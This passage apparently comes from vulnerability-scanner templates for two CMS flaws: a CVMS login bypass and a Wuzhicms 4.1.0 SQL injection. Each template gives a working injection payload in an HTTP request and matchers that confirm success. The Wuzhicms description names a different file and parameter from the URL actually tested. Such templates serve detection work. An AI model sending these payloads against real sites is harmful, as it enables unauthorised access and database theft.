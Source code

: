 - severity - critical
- tags - cvms,sqli,auth-bypass,cms,edb,packetstorm
## Requests
### Step - 1
```
POST /index.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username=admin%27+or+%271%27%3D%271%27%23&password=nuclei&login=

```
### Matchers

**Type - word**
- part - body
- words
    1. Admin user
    2. Dashboard
    3. CVMS
- condition - and

**Type - status**
- status
    1. 200

---
# Wuzhicms 4.1.0 - SQL Injection
## Description
- Wuzhicms 4.1.0 contains a SQL injection vulnerability via the grouppid parameter of /coreframe/app/member/admin/group.php. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - wuzhicms,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/api/sms_check.php?param=1%27%20and%20updatexml(1,concat(0x7e,(SELECT%20md5({{num}})),0x7e),1)--%20
### Matchers

**Type - word**
- part - body
- words
    1. c8c605999f3d8352d7bb792cf3fdb25
